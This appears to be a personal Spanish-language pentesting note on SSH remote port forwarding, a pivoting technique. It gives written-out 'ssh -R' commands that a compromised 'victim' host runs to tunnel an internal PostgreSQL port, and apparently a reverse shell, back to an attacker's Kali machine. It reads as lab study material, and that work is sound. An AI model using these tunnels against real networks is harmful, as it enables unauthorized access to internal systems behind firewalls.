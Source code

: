 
## DESCRIPTION

Esto es más desafiante en el mundo real porque, en la mayoría de los casos, es probable que los firewalls, tanto de hardware como de software, se interpongan en el camino. El tráfico entrante a menudo se controla mucho más agresivamente que el tráfico _saliente_ . Solo en casos excepcionales comprometeremos las credenciales de un usuario de NSSH, lo que nos permitirá conectar SSH directamente a una red y reenviar el puerto. Muy rara vez podremos acceder a los puertos que vinculamos a un perímetro de red.

Desde dentro se conectan a nuestra maquina

![[Pasted image 20230529193914.png]]
#### Mas información
* 


## EXPLOITATION

### OPTION 1: EN KALI

1. Arrancamos ssh

```
sudo systemctl start ssh
```


### DESDE LA VICTIMA (PUENTE)

En este caso, queremos escuchar en el puerto **2345** en nuestra máquina Kali ( **127.0.0.1:2345** ) y reenviar todo el tráfico al puerto PostgreSQL en PGDATABASE01 ( **10.4.50.215:5432** ).

```
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```


![[Pasted image 20230529191520.png]]


### OPTION 2: POR EJEMPLO SI QUEREMOS ESTABLECERNOS UNA REVERSE SHELL

![[Pasted image 20230606182143.png]]

```
ssh -R 10.10.140.147:3213:192.168.45.228:9898 web_svc@192.168.250.147
```
## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 